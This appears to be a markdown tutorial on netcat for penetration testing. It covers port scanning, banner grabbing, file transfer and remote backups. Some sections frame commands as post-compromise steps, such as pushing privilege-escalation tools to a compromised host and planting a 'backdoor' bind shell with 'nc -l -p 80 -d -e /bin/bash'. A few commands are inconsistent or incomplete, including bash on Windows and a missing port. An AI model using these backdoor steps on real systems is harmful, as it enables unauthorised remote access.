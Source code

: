 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET / HTTP/1.1\n\n`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo -en "GET / HTTP/1.1\n\n" | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e /bin/bash`
on the local host:
`# nc [remote host] 80`
`ls`

### Creating a backup on a remote machine
First you must setup a listener on the host that will receive the files. After issuing the 
`nc -l 134 | tar xvfp -` command. it seems like no activity is taking place. As soon as the transfer is initiated on the remote side you will set a list of files as they are sent across the Netcat pipe.
on the remote host:
```bash
nc -l -p 1234 | tar xvfp -
```
on the local host:
```bash
tar cfp - * | nc -w 3 [remotehost]
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTk4MDk2NTg1LDE0NTYwNDE2MTUsLTIwMz
M4MjkyMywtMzE3NDAxNDgxLDU3ODU5Mzg0MiwxMTk5MjUzOTcw
LDk0NjAyMjMyMywxMzcyOTg2MjAwXX0=
-->